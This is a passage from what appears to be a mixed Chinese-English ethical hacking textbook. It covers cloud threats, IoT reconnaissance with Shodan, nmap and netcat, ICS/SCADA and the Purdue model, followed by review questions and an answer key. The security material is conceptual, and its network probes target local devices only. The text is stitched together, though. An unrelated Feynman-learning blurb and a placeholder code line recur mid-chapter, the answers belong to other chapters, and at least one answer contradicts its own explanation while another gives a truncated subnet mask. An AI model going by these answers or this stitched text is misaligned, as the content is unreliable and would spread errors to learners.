一旦你识别出可用的端点（即使强制浏览也未必能够发现全部端点），你可以回到以往的方式对其进行测试。毕竟，我们仍然是在测试一个运行在应用服务器上的 Web 应用程序。测试不同的 `RESTful` 应用程序可能存在细微差别。例如，你可能需要更改 `User-Agent` 字符串来测试某些应用。如果预期请求来自移动应用，使用传统的 `IE`、`Chrome` 或 `Firefox` `User-Agent` 可能不奏效。应用可能会检查正确的 `User-Agent`，以确保请求来自正确的位置。

## 常见云端威胁

在实践中，使用云提供商并不一定会改变攻击者可用或会使用的途径。攻击者仍然可以使用钓鱼攻击获取凭据，进而访问云端环境。无论你的资源位于何处，你都需要采取必要的阻断和应对措施来保护它们。这可能需要了解云环境的不同特性来执行正确的操作，但所有基本防护仍然必须到位。以下是如果你的资源在云提供商处时可能需要应对的一些常见威胁。

### 访问管理

即使在云端环境中，你也会有用户。通常，你需要处理与本地网络和系统相同的身份和访问管理问题。云环境的规则与你自己的网络和系统相同。所有访问都应被审查并批准，确保每个用户仅拥有完成其工作所需的最小访问权限。这意味着应使用基于角色的访问控制（`RBAC`）而非为每个用户单独管理权限。每个用户都应拥有强密码，且不在其他地方使用。此外，无论身处何地，都应启用多因素认证（`MFA`）。

对一些人来说，挑战在于不知道在不同云环境中如何定位身份和访问管理功能。这与直接在 `Windows` 服务器上加载 `Active Directory` 管理应用并不相同，除非你使用联合身份解决方案将云提供商与本地 `Active Directory` 实例关联。这样，你就可以在本地网络和云提供商网络中使用相同的用户，凭据会在本地 `Active Directory` 实例上进行验证，尽管请求是针对云提供商的。


通常，当您管理云环境的访问权限时，您会前往云服务提供商的控制台，找到名为身份和访问管理（IAM）的模块，或其最接近的变体。在 Google Compute 中，它称为 IAM，您可以在 Figure 15.17 中看到。在 Microsoft Azure 中，您会前往“所有服务”，然后选择“标识”。AWS 有一个名为“身份和访问管理”的功能。从这些地方的任何位置，您都可以创建用户并分配权限。一旦创建了用户，他们可以被分配到您在云环境中创建的资源中。与其他任何身份解决方案一样，请记住角色可能会跨越不同的系统。如果您需要让用户成为某个系统的管理员但不是其他系统，您可能需要创建不同的角色以满足这一需求，而不是仅仅将用户设为管理员。始终要仔细分配给个人用户的权限。


**FIGURE 15.17** Google IAM

在访问控制方面，需要考虑的一个问题是您可以创建密码学钥匙来访问单个资源。这在 AWS 计算实例的情况下是肯定的。如果您创建密钥但未能通过在密钥上使用强密码并不共享密钥和密码来控制对密钥的访问，您就有可能暴露对该密钥所使用的系统的访问权限。如果同一密钥用于多个系统，且该密钥泄露，那么使用该密钥的所有系统都将对拥有密钥和用于解锁密钥的密码的人开放。

保护云资源的一个方法是进行审计和日志记录。您应该记录对资源的访问日志并监控这些访问。攻击者会使用各种技术获取凭据访问资源，这可能包括尝试已知的凭据。如果没有记录访问（包括登录尝试的来源），您将无法知道攻击者是否从不应允许的地理位置登录。与本地系统不同，云资源并不总是有相同的访问限制；在本地系统中，您可能需要实体访问设施才能连接到系统。如果您通过 Internet 连接到云资源，攻击者同样可以以相同的方式进行连接。

### 数据泄露

您在云提供商或任何存储位置维护的最重要资源是数据。最终，您可能不在乎攻击者获得无数据访问权限的独立系统。如果他们利用您的系统发起攻击，您可能会为网络和计算资源支付费用。如果及时发现，则没有持久损害。数据的情况不同。数据可能包含 personally identifiable information（个人可识别信息），如果数据被盗，可能需要向公众通报数据泄露，并且相关数据主体需要投入大量时间和精力进行恢复。在知识产权的情况下，您可能会面临竞争在市场中长期影响的风险。

数据泄露的曝光方式有多种。第一种是通过应用程序暴露，即攻击者 compromise 了应用程序并获得底层数据的访问权限。第二种是数据以非结构化方式存储。例如，在 AWS 中，您可能将数据存储在 S3 桶中。默认情况下，AWS 桶的所有公共访问都被关闭。Figure 15.18 展示了关闭保护后的 S3 桶配置。这要求不仅要关闭设置，还要勾选一个确认框，表明您了解使 S3 桶公开的问题。

这可能正是您想要的。在某些情况下，您希望用户能够访问您在云提供商处存储的数据。然而，问题在于，可能有人不小心在公共云存储实例中存储敏感信息。一旦数据存入云存储，如果允许公共访问，任何人都可以访问。不要假设只要 URL 不为外部所知，数据就无法被访问。隐藏实例且不发布它并不等同于保护它。

您可以通过定期评估资源的权限，确保已正确配置访问控制来帮助防止数据泄露。此外，使用数据防泄漏（DLP）功能，无论是由云提供商还是第三方提供，都可以帮助防止 inadvertent 数据披露。


**FIGURE 15.18** S3 bucket configuration

### Web 应用程序 compromise

Web 应用程序基本上是数据的程式化接口。虽然可以构建没有可访问数据的 Web 应用，但这很难想象。除非您打算让服务器或客户端处理或存储数据，否则无需程式化访问。问题在于 Web 应用有很多方式可以被破坏。开放式应用安全项目（OWASP）跟踪 Web 应用程序的 Top 10 漏洞列表。其中许多与应用程序代码中对数据的处理不当有关。用户可以向应用程序发送任何数据，如果应用程序未正确处理，应用程序可能会被 compromise，从而导致对后端数据的过度访问。

另一个可能被 compromise 的领域是配置错误。例如，如前所述，启用公共访问 S3 桶会导致配置错误。弱网络限制也是另一种配置错误，可能允许未经授权的人员访问。不了解云提供商提供的控制措施的人可能使用错误的控制措施来实现网络访问限制。虽然云提供商的控制措施与本地保护措施相同，但具体实现可能因环境而异。

配置错误并非 Web 应用被 compromise 的唯一方式。攻击者的目标也很重要。他们不一定寻找系统的 shell 访问，尽管这可能是一种幻想。最终，shell 访问是手段，目的是数据访问。许多现代攻击者属于高级持续性威胁（APT）类别，他们要么寻找货币化受损系统或企业的方法，要么寻找可以在市场中更成功竞争的知识产权。如果他们能够通过经典的 SQL 注入攻击获取数据，那就是他们首选的方法。通常，花费最少的努力获得最大的结果是首选的策略。

在防止 Web 应用程序 compromise 时，应遵循几条建议。首先，应在设计阶段就将安全性纳入考虑。其次，使用经过漏洞评估的组件，并始终保持最新的修复。Web 应用程序应由第三方进行严格测试，即使该第三方是公司内部的安全测试专家。此时的“第三方”指的是除开发团队或质量保证团队之外的任何人。此外，Web 应用程序应通过使用 Web 应用防火墙（WAF）来进行保护。

传统的暴力破解尝试大多已成过去。如果有暴力破解尝试发生，它们是在离线进行的。包含哈希密码的凭据泄漏可以离线破解，而不会向企业透露攻击者正在尝试入侵。此外，凭据通常在网络上广泛可得，包括通过所谓的暗网，它是基于 Tor（洋葱路由器）的互联网叠加层，用于访问这些信息所在的系统。一旦你拥有一组凭据，就可以尝试全部组合。这可能不会引起他人注意，因为许多企业并不关注对不同用户账户的连续失败尝试。它们更关注同一用户账户的多次失败。Credential stuffing（凭据填充）技术不会重复使用相同的用户名。凭据泄漏更可能只包含单个用户名的实例，但涉及大量不同的用户名。2019 年的一个凭据泄漏包含了超过两十亿条用户名和密码组合。

另一种获取用户名和密码组合的方式是直接询问。网络钓鱼攻击非常常见，这主要是因为它们成功率高，尽管大多数钓鱼邮件会被邮件提供商（包括图 15.19 所示的邮件服务）过滤到垃圾邮件夹中。如果邮件内容足够可信，用户可能会被骗去访问网站，这些网站也可能非常逼真。特别是在工作日繁忙时，用户可能注意力不够，容易被诱导透露凭据。他们习惯于接收接二连三的请求，看到再多的请求时，也会直接响应。


**FIGURE 15.19** Phishing message

防范钓鱼信息的常见做法是让用户接受定期的安全意识培训。与其采取对抗性策略，建立与用户的合作关系同样有效。检测钓鱼信息很困难。如果现有的邮件防护措施不足以捕获所有信息，则不应怪责用户未能识别恶意信息。攻击者会花费大量时间让信息看起来极其真实。

其他防范钓鱼攻击的方法（目标可能是获取凭据，进而访问云端服务）是实施邮件防护措施。可以采用基于威胁情报的解决方案，这些方案能够检测即使是未知的攻击，并将恶意信息重定向到用户收件箱之外的位置。

虽然不完美且依赖于良好实施，多因素认证（MFA）仍是对凭据基础攻击的必要缓解措施。若使用短信作为第二因素或使用推送消息作为第二因素，则 MFA 可能被滥用。推送消息是指认证应用通过手机通知向用户发送请求。用户只需点击批准即可完成验证，无需其他操作。当攻击者不断尝试认证并发送请求给用户，导致用户疲惫并直接批准时，推送消息会被滥用。更好的做法是要求使用由认证应用或设备生成的一次性密码（OTP）。此外，硬件设备也可以用于实现 MFA。

### Insider Threat

有趣的是，许多企业将此视为最大挑战，尽管多年来的证据表明，应对和从外部实体的攻击中恢复的成本已给组织带来数十亿美元的损失，即便仅在过去几年。然而，内部威胁是真实存在的问题，且在部分组织中尤为突出。内部威胁是指拥有访问权限的员工，可能会窃取或损坏业务资源。通常人们认为这是恶意行为，但内部人员更可能因错误导致损害或丢失，而不是实施恶意行为。

任何拥有云提供商环境访问权限的员工都可能造成损害或丢失。应始终有控制措施防止损害。正如所述，将用户的访问权限限制在其完成工作所必需的范围内是良好实践。此外，日志记录和监控访问及操作有助于发现损害和丢失。这并不意味着你要怀疑所有员工。它意味着有时会发生坏事，有时是错误，有时是有意为之的破坏。能够观察行为有助于在行为进行时识别，从而及时响应并采取适当措施。

### Internet of Things

数十年来，计算设备一直在不断变小。我们从占据整间房的设备开始，发展到可以放在桌面上、放在膝盖上、甚至放在手掌里的电脑，今天你可能甚至在家里看不见的地方散布着许多计算设备。例如，图 15.20 展示了一台内置小型计算设备的灯光开关，使用户可以通过应用或语音（在安装了合适的控制器后）进行控制。这些设备并非通用计算设备，无法运行任意程序，通常具备有限的存储和计算能力，因为它们并不需要承担繁重任务。灯光开关只需决定是否允许电流通过，或阻止电流通过。所有这些设备的集合被称为物联网（IoT）。

当前，智能家居推动了大量具备计算智能和网络连接的设备使用。你可能拥有灯光开关、家电、恒温器、医疗设备或其他需要一定智能和网络能力的设备。也可能有仅负责在家庭网络中传输信息的传感器，或控制家中设备（如灯光开关）的设备。这些设备具备网络能力，意味着你可以与它们交互，它们在你的网络中可被检测到，有时甚至能被广泛看到。

首先，有几个网站可用于搜索 IoT 设备。你可以使用 Censys.io，它允许你根据长长的特征列表在其数据库中搜索设备。另一个是 Shodan，网址为 `shodan.io`。Shodan 维护一个 IoT 设备的数据库，拥有账户的用户可以搜索这些设备。图 15.21 展示了在 Shodan 上可以执行的一些快速搜索。选择其中一个搜索会显示设备的详细信息。例如，搜索“Cams”会返回通过这些设备发出的 HTTP 请求的头部信息。每个响应都是一组 HTTP 头部，包含请求的日期时间以及服务器信息，进而揭示使用的软件。


**FIGURE 15.20** Internet‑enabled light switch

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者`理查德·费曼`。

1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，`难以遗忘`。

```
if (condVar > someVal) {console.log("xxx")}
```

Typically, you wouldn't spend a lot of time on these sites, since finding all of the web‑cams in the world, or at least the world according to Shodan, won't be a task you would perform as an ethical hacker. You would be more apt to identify IoT devices through something like a `network scan`. Using `nmap`, we can turn up all the devices on a network, including IoT devices. One example, shown next, is how that light switch shown earlier appears on the network. You can see `nmap` isn't sure what to make of the operating system. According to `nmap`, this is a smartphone of some sort. However, the real clue isn't what `nmap` believes. It's in the media access control (MAC) address. According to the organizationally unique identifier (OUI), the network interface was manufactured by a company called iDevices.


**FIGURE 15.21** Shodan website

**Nmap Results**

```
Nmap scan report for 192.168.4.25
Host is up (0.026s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: D4:81:CA:5B:8E:CA (iDevices)
Device type: phone|VoIP phone|media device|general purpose
Running (JUST GUESSING): Sony Ericsson Symbian OS 9.X (86%), Palmmicro embedded (85%), Acer embedded (85%), Microsoft Windows XP (85%)
OS CPE: cpe:/h:sonyericsson:p1i cpe:/o:sonyericsson:symbian_os:9.1 cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Sony Ericsson P1i mobile phone (Symbian OS 9.1) (86%), Palmmicro AR1688 VoIP module (85%), Acer S5200 projector (85%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
```

The company iDevices doesn't make smartphones. It makes smart home devices. One of these (and the only type of iDevices device on this network) is a smart light switch. Where tools are uncertain, as in this case, sometimes you have to resort to another way to obtain the information. What we can see, in addition to the type of device this is, by way of the manufacturer, is there is a port that's open. There appears to be a web server running in this device, which is common for embedded devices (small, single‑purpose computing devices where the “program” running is embedded into the firmware). We can do a little probing. The following example shows a connection to this device over port 80 using `netcat` to manage the connection:

```
nc 192.168.4.25 80
GET / HTTP/1.1
Host: 192.168.4.25
 
HTTP/1.1 404 Not Found
Content-Length: 0
```


Unfortunately, there's no joy here. While there is a web server, it appears to have no content. This may mean there is an API that can be used to control the switch. This may require that you go after endpoints the device knows about using another technique, like the one using Burp Suite shown earlier. There are many other tools available to do testing against APIs. One of these is Postman, which can be used to generate requests to web servers. You can send different types of requests to the web server and include parameters. This will allow you to see how the web server responds to different requests and parameters. Figure 15.22 shows the use of Postman to send a POST request to the web server embedded in the light switch.


**FIGURE 15.22** Postman sending POST request

Many IoT devices will communicate with cloud‑based controllers. Some of the cloud providers, like Microsoft Azure, as shown in Figure 15.23, provide services to create IoT‑based applications. You can see the different services available in the Azure portal. You could create a central place for any IoT device you may be developing to communicate to. This is not to say that all IoT devices communicate with cloud providers, but with the resources available from cloud providers today, it's a lot easier for companies to make use of existing technology and capabilities. Other cloud providers will have other services that may cater to IoT developers.


**FIGURE 15.23** IoT services with Microsoft Azure

All of this is to say that IoT devices are controlled by services and systems out on the Internet somewhere. One way to tackle this is to sniff communications between the IoT device and the controller. This will allow you to determine who the device is communicating with. You may not be able to see the communication stream, however, if it's encrypted.

Of course, this only addresses this circumstance where there is a web server listening but no immediate entry point to the web server. Other IoT devices may have different ports listening, which may provide other opportunities. The following example shows `nmap` output with open ports as well as a guess at the operating system. This device, based on the manufacturer identification again, is a wireless access point. This does not have a web server listening. Instead, there are two other ports that are open, though the port identification is likely incorrect, since it's based on names for commonly used ports and not necessarily the application that's listening. We can get a little more detail, though, if we use a version scan from `nmap` in addition to just a port scan. You can see that `nmap` has identified the port that it has as a Nessus port using TLS, and we can see some of the certificate details used for encryption. As it's using encryption, we could use a tool like `openssl` to communicate with the port, if we knew more about how to communicate with that port.

**Nmap Results**

```
Nmap scan report for 192.168.5.14
Host is up (0.0081s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE     VERSION
3001/tcp  open  ssl/nessus?
| ssl-cert: Subject: commonName=eero-GA4642265HE17039/organizationName=eero
| Subject Alternative Name: IP Address:FE80:0:0:0:FABC:EFF:FE05:D1D2
| Not valid before: 2020-06-23T19:46:19
|_Not valid after:  2021-06-23T19:48:19
10001/tcp open  tcpwrapped
MAC Address: F8:BC:0E:05:D1:D2 (eero)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```

Another interesting fact to note is this device is running Linux. Linux can be notoriously difficult to get a version number for since custom kernels will behave differently. If this were using a standard kernel from a Linux distribution, we would know the kernel version in use. However, because this would be a custom kernel for this device and also one that is on an embedded system, it's much harder to identify the actual kernel version. However, based on the fact that this is Linux, it may be possible to identify remote kernel vulnerabilities for possible exploitation.

In the end, when it comes to IoT devices, you can think of them as what they are: computing devices. They aren't general‑purpose computing devices in the sense that there is a disk and common userland utilities that you can run any program you want on, but they are computing devices that follow the same rules as other computing devices. There is code that is being executed by a processor, and there is memory. Testing IoT devices may take more time, but you can approach them in a similar way to testing other computing devices.

## Fog Computing

Fog computing 是一种与云计算相关联的概念，涉及智能边缘设备，如物联网中的设备。如前所述，云服务提供商提供基于 IoT 的服务。这使得边缘设备能够在云端拥有控制器，从而实现数据汇聚和部分处理。有些设备虽然会产生大量数据，但这并非理想情形，因为从性能或安全角度来看，向云服务发送大量数据并不有利。

Fog computing 将云计算中的服务与端点设备的概念分离，并将服务更靠近端点。这降低了潜在的延迟，并将处理更靠近设备所在的位置。Fog computing 可用于支持 IoT 设备，使这些边缘设备能够与比完全基于云的控制器更靠近它们的控制器进行通信。

Fog computing 包含数据平面和控制平面。控制平面决定如何处理 incoming requests，决定对它们执行什么操作。数据平面负责数据的处理、存储、聚合或丢弃。这是一种在网络设备（如路由器）中也常见的设计架构。你可以把 fog computing 想象成包含一个路由器，带有路由表（routing tables）用于控制数据的移动方式，同时具备移动或处理数据的能力。

## Operational Technology

虽然这已经持续了几年，长期以来一直是关注的焦点，你可能已经看到越来越多关于工业控制系统的新闻报道，攻击者正在针对如燃气或电力公用事业公司等对象。这些工业控制系统（operational technology）指的是用于实现业务运营以向消费者供给气体、电力、水或其他资源的设备、控制器和界面的集合。这也可能包括制造系统，例如用于挤制干酪以生产包装在超市销售的干酪条的设备。所有这些类型的系统都是工业控制系统（ICSs）的例子。

工业控制系统的一个例子是监控与数据采集（SCADA）。SCADA 系统可能包含多个需要监控的设备。这些设备会被微控制器监控，微控制器可能是可编程逻辑控制器（PLC）。每个微控制器都会有一台监控计算机读取 PLC 的数据。整个 SCADA 系统呈多层结构，如图 15.24 所示（这是完整的 Purdue 模型的子集，后文会进一步说明）。在设备网络的顶层会有一台供人坐在前面的计算机，这通常被称为人机接口设备（human interface device, HID），也可称为人机交互设备（human–machine interface, HMI）。

每个 PLC 可能包含一系列寄存器，可供读取或写入。通常会有协议允许控制器与 PLC 交互。例如 Modbus。该协议最初是在所有设备接口主要通过串行连接处理的年代开发的，需要每个 PLC 通过一根线与其控制器相连，数据通过该线传输。如今，一切都已网络化，这意味着 Modbus 可以像传统串行接口一样有效地在 TCP/IP 网络接口上工作。


**FIGURE 15.24** ICS design

ICS/SCADA 与运营技术的最大问题在于设备可能很脆弱，因为它们是为特定功能而设计的，往往资源受限且难以处理异常情况。此外，在 ICS/SCADA 系统中正确实施常规安全控制（如强身份验证和访问控制）也面临挑战。常见问题之一是使用默认用户名和密码。早期在许多情况下，运营技术并未联网，这意味着要对 ICS/SCADA 系统中的所有设备进行攻击需要物理访问。现在已不再如此，因为将 HMI 设备放在网络上并允许远程访问已成为常规做法，从而不必局限于位于工业环境中的计算机。

在 ICS/SCADA 系统出现问题或潜在问题的地方，往往是访问控制薄弱。这使得攻击者只要能从业务网络内部到达这些设备，就能运行脚本不仅读取 PLC 以了解正在发生的事情，还能写入 PLC 导致工业控制系统出现意外行为。在公用事业领域，这可能导致客户服务出现重大中断。

## The Purdue Model

Purdue 模型（也称 Purdue Enterprise Reference Architecture）是一种指导企业使用计算机集成制造（CIM）网络设计的架构，旨在实现业务的全自动化。该模型广泛用于工业控制系统，用于将运营技术（OT）与信息技术（IT）分离。OT 设备包括前文提到的可编程逻辑控制器（PLC）及其监控和管理设备。由于这些设备可能相当脆弱，设计能够保护它们的网络架构非常重要，同时仍能以成本效益的方式让操作员维护设备。

图 15.25 展示了参考架构及其不同的层级或区域。从底部的物理过程区（level 0）开始，这里是传感器和执行器所在的区域——即执行制造工作的设备。其上是 level 1，容纳与传感器和执行器交互的智能设备，如 PLC 或远程终端单元（RTU）。再往上是控制系统区，包含与 PLC 和 RTU 通信的设备，如 SCADA 系统和 HMI 设备。最终的 OT 层是现场运营/控制层，这里通常部署制造运营管理（MOM）系统或制造执行系统（MES），它们与下层的 HMI 和 SCADA 系统进行交互。

在 OT 区域之上是 IT 基于的层级。OT 与 IT 之间应当进行分隔，常有人推荐使用隔离区（DMZ）来保护可能需要与 OT 系统通信的 IT 系统。理想情况下，所有 OT 系统应当完全隔离（air‑gapped），只有在物理位置上才能访问，但这在当今世界并不实际。IT 层包括 OT 系统有效运行所需的基础设施，如集中化的身份与访问管理（IAM）以及用于仪表盘或报告的存储关键运营数据的数据库服务器。

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 `Richard Feynman`。

1. 运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，`难以遗忘`。

```
if (condVar > someVal) {console.log("xxx")}
```

15. 无论使用哪种云服务模式，以下哪项始终是客户的责任？

   1. `Patching`

   2. `Operating system installation`

   3. `Application management`

   4. `Data`

16. 在普渡模型的最低层会发现哪些设备，并且因此应该得到最好的保护？

   1. `Sensors and actuators`

   2. `Programmable logic controllers`

   3. `Remote terminal units`

   4. `Human–computer interfaces`

17. 从安全角度来看，普渡模型的哪个方面被认为是必不可少的？

   1. `Human–computer interfaces`

   2. `Segmentation`

   3. `IT and OT interfaces`

   4. `Layered model matches OSI`

18. 在云服务中，针对凭据泄露的良好缓解措施是什么？

   1. `Long passwords`

   2. `Using only software as a service`

   3. `Requiring MFA`

   4. `Using serverless functions`


19. 哪些因素可能导致云服务数据泄露？

1. `Public buckets`
2. `Insider threat`
3. `Selecting the wrong provider`
4. `Only using software as a service`

20. 哪些因素不会用于自动化在云环境中部署系统？

1. `Templates`
2. `Ansible`
3. `PowerShell`
4. `Containers`

# Appendix

## Answers to Review Questions

### Chapter 2: Networking Foundations

1. A. `A thermostat` is an embedded device without a traditional user interface. A light bulb would have no user interface, even if it has network capabilities. A set‑top cable box would have a custom interface and not a general‑purpose one. The only device here that is a general‑purpose computing platform with a traditional user interface—screen and keyboard—is the smartphone, so it isn't part of the IoT.

2. D. `TCP` uses a three‑way handshake, which is fairly heavyweight. `HTTP` uses `TCP` and adds more on top of it. `ICMP` is used for control messages. `UDP` has very little overhead and is commonly used for real‑time data transport.

3. B. From top to bottom, the `TCP/IP` architecture is Link, Internet, Transport, and Application. B is the only answer that reflects that.

4. B. While `Microsoft Azure` and `Google Compute` have storage capabilities, they aren't storage as a service solutions. Drop leaf is a type of table. The only one listed here that is storage as a service solution is `iCloud`, which is Apple's cloud storage platform.

5. B. The `IP` headers include addresses. `UDP` headers use ports. `TCP` headers use flags, but `UDP` headers do not. The `UDP` headers have the source and destination port fields along with checksum and length.

6. C. The three‑way handshake is used to establish a connection. The first message has the `SYN` flag set and includes the sequence number. The response from the server has the `ACK` flag set for the `SYN` message that was sent from the client. The acknowledgment number is set. Additionally, in the same message, the server sends its own `SYN` flag and sequence number. The client then responds with an `ACK` message. So, the sequence is `SYN`, `SYN/ACK`, and `ACK`.

7. D. While `ICMP` may be used as part of passing control messages in case of errors in the network, it wouldn't be used between the IoT device and a server. `SMTP` is an email protocol that also wouldn't be used. `Telnet` is a cleartext protocol used to gain command‑line access to a system. `HTTP` would commonly be used to pass messages between a controlling server and an IoT device.

8. D. Ring networks were once common but are much less so now. You may find a ring network in a service provider network today. A bus topology is best suited for a smaller network. Full mesh isn't a very common topology, in part because of the expense and complexity it brings. A star‑bus hybrid would be common. An enterprise would use multiple switches that were all connected to one another over a bus, while all the endpoints would connect to the switch in a star topology.

9. B. A `/23` network would be `255.255.254.0`. A `/21` would be `255.255.248`. A `/20` would be `255.255.240.0`. Only a `/22` would give you a `255.255.252.0` subnet mask.

10. C. The RFC 1918 address blocks are `10.0.0.0/8`, `172.16.0.0/12`, and `192.168.0.0/16`. The only address listed that fits into one of those address blocks is `172.20.128.240`. The address block is `172.16.0.0–172.31.255.255`.

11. A. Manual pages provide documentation for commands and programs. IEEE is the Institute of Electrical and Electronics Engineers, which does manage some protocols but isn't documentation itself. Standards on the Internet are actually uncommon and happen only after a long period of time. The best place to find definitive documentation about protocols seen on the Internet is in the request for comments (`RFC`) documents.

12. D. At the Network layer, the PDU is a packet. The Network layer is `IP`. At the Data Link layer, the PDU is a frame. Commonly, the protocol would be `Ethernet` there. `UDP` uses `datagram` as the PDU. `TCP` uses `segment` for the PDU.

13. B. The source address is used as the address to send back to on the response, making it the destination address. The don't fragment bit is used to tell network devices not to fragment the packet. The acknowledgment field is part of the `TCP` header and not the `IP` header. The `IP` identification field is used to identify fragments of the same packet, as they would all have the same `IP` identification number.

14. C. The `traceroute` program uses `UDP` messages with the time to live field starting at 1. This is incremented for each hop in the network until the destination is reached. Each device would send an `ICMP` time exceeded in transit message back to indicate the TTL had expired. The source of that message indicates the address of the network hop. On Windows systems, `tracert` uses `ICMP` echo request messages, also incrementing the time to live value. Because of these two factors, `traceroute` requires `ICMP` to work.

### Chapter 3: Security Foundations

1. C. Packet filters are used to make block/allow decisions based on header data like source and destination address and port. Stateful firewalls add in the ability to factor in the state of the connection—new, related, established. An application layer gateway knows about application layer protocols. A unified threat management appliance adds additional capabilities on top of firewall functions, including antivirus.

2. D. Confidentiality is about making sure secrets are kept secret. Integrity makes sure that data isn't altered accidentally or by an unauthorized agent. Nonrepudiation makes sure someone can't say a message didn't originate with them if it came from their identity. Availability means making sure data is where it needs to be when it should be there. This includes services as well.

3. A. Risk is the probability of the occurrence of an event multiplied by the dollar value of loss. There is no mitigation factor that is quantified, so it could be put into a risk calculation.

4. D. Switches and optical cable connections can certainly be part of a network design, but in and of themselves they don't add any security features. You may use `Linux` on the desktop, but without more of a strategy for patch and vulnerability management, `Linux` is no better than other operating systems. Access control lists on routers can add an additional layer of security, especially when combined with other elements like firewalls and intrusion detection systems.

5. B. 保密性是保持秘密信息的秘密，这意味着未经授权的用户无法访问它。加密是一种很好的方法，可以防止未经授权的用户访问数据，因为要获取数据，他们需要拥有密钥。守护进程用于确保程序保持运行。加密散列用于验证数据的完整性。Web 服务器用于提供信息。

6. C. 防火墙用于阻止流量进入网络，尽管入侵防御系统也会阻止流量。数据包过滤防火墙使用头部信息（如源和目的地址和端口）来决定是否允许流量进入网络。`Syslog` 和 `Windows` 事件子系统可用于记录系统消息。入侵检测系统可用于在流量上生成警报。

7. D. 如果用户对文件进行更改并保存，这是一种有意的行为，数据是用户期望并想要的。如果磁盘驱动器在磁盘上标记了坏块，驱动器不会向这些块写入任何数据，因此不会出现完整性损失。以明文形式传输的信用卡会违反保密性。然而，记忆体故障可能导致数据完整性丢失，即使在向驱动器写入数据的情况下。记忆体中的损坏数据可能会写入磁盘。记忆体故障还可能导致磁盘驱动程序出现问题，进而导致数据损坏。

8. A. 安全信息事件管理系统用于聚合事件数据（如日志信息）。数据聚合后可以进行搜索和关联。尽管其名称包含“事件管理”，但它并不用于管理安全项目，也不用于提升安全事件。其他工具可以用于收集和存储开源情报。

9. C. 通常，系统日志存储在生成日志消息的系统上。本地系统当然可以处理它们生成的日志。单条日志消息通常占用很少空间，因此带宽不是问题。通过网络传输通常不会比本地磁盘内的数据移动更快。系统日志可用于识别攻击，但日志本身不会防御攻击。如果攻击者 compromise 了系统，攻击者可能会删除本地日志，以防止其被访问。

10. B. 在 `TCP` 中，三次握手用于同步序列号并建立连接。虽然序列号是共享的，但它们不会被称为对齐，这可能暗示两端使用相同的序列号。`SYN` 消息是三次握手的一部分，但它本身不足以建立连接。选项 A “最终确认消息” 是模糊的，可能指对 `FIN` 消息的确认，用于关闭连接。

11. A. 标准和实践应来源于安全策略，这是组织内安全角色的高层次指导。安全通常不会直接增加公司的底线。策略并非提供具体指示，那是程序的职责。

12. C. 帕克六元组（`Parkerian hexad`）在 `CIA` 三元组（保密性、完整性、可用性）之外，还增加了实用性、拥有权（或控制权）和真实性。

13. D. 系统关机、服务启动和包安装等可能是被记录的事件，但它们通常由正常系统日志记录。审计功能在 `Windows` 与 `Linux/Unix` 之间有所不同，但两者的审计系统在用户登录系统时都会生成日志。

14. B. 入侵防御系统（`IPS`）和入侵检测系统（`IDS`）都可以生成警报。两者都可以在需要时记录数据包。伪造消息通常不会导致三次握手完成，且握手本应不被完成。`IPS` 可以阻止或拒绝网络流量，而 `IDS` 不能。

15. A. 运行时应用程序自我保护是一种在应用服务器上使用的插件，用于防止坏消息影响应用。`Java Applet` 是 `Java` 程序的实现形式。入侵防御系统用于检测并阻止潜在入侵。然而，Web 应用防火墙（`WAF`）基于应用层流量做出决策，允许或阻止该流量，因此它是一个应用层网关。

16. C. 数据包过滤器使用第 2/3/4 层的头部信息进行决策。`HTTP REQUEST` 消息位于应用层（第 7 层）。以太网类型不用于数据包过滤的决策。`SNMP OID` 也是应用层消息。数据包过滤器可能会使用源端口或目的端口来决定允许或阻止数据包。

17. C. `Elastic Stack` 是安全信息事件管理系统的实现。`Prewikka` 可与入侵检测系统一起作为仪表盘使用。`Snorby` 是与 `Snort` 一起使用的辅助程序。`Snort` 是入侵检测程序。


18. D. 缓冲区溢出攻击用于通过修改栈中的返回地址来执行攻击者提供的代码。中间人攻击可以用于拦截并潜在篡改两个系统之间的对话。堆喷射攻击向堆中大量数据发送，以覆盖现有内容。水坑攻击本身不破坏完整性，其目的是向系统引入恶意软件；恶意软件随后可能破坏完整性，但水坑攻击本身不直接导致完整性受损。

19. B. 水坑攻击旨在 compromise 访问特定网站的系统。网络钓鱼攻击旨在从受害者那里获取信息，可能通过 compromise 受害者系统。缓冲区溢出攻击试图引入攻击者提供的代码。拒绝服务攻击的目的是使服务对用户不可用。

20. D. 端点检测与响应（EDR）解决方案可用于为端点提供隔离，以及进行远程取证和恶意软件检测。部分公司使用 EDR 解决方案替代防病毒软件，因为它同样能够执行其他功能。

21. C. 防火墙是技术控制，因为它是硬件或软件，用于保护资产。它不是政策或指南，因此不是行政控制。虽然它可能有物理形式，但其目的不是防止物理访问，所以不是物理控制。它可能既是预防性的也是侦测性的（日志可用于识别恶意或可疑行为），但它不是纠正性的。

22. D. 企业没有选择将风险转移给他人，也没有选择不进行会导致风险的活动（开发应用），即规避风险。缓解意味着他们在做某事以减少风险。在此情形下，他们是接受风险。

23. A. 标准作为指南，规定了如何根据业务需求实施安全策略。它们是文档，属于行政控制。它们不是纠正性控制，虽然可能包含纠正控制的建议。它们也不是逻辑控制（即技术控制），信息安全领域不存在功能控制。

24. B. 安全策略和标准都是行政控制，而非技术控制。基于主机的防火墙可能对内部威胁效果不佳，因为内部人员已经在已有防火墙的设备上操作。其他设备上的基于主机的防火墙同样可能无效。一个良好的身份和访问管理（IAM）解决方案可以提供强大的身份验证和访问控制，从而阻止内部人员访问其没有权限的数据。

25. D. 虽然钓鱼本身被归类为初始访问，但注册钓鱼域名并不属于此类。凭证访问可能是目标，但同样，注册域名并不属于凭证访问。注册域名属于资源开发，因为攻击者正在构建可以用于发起攻击的基础设施。

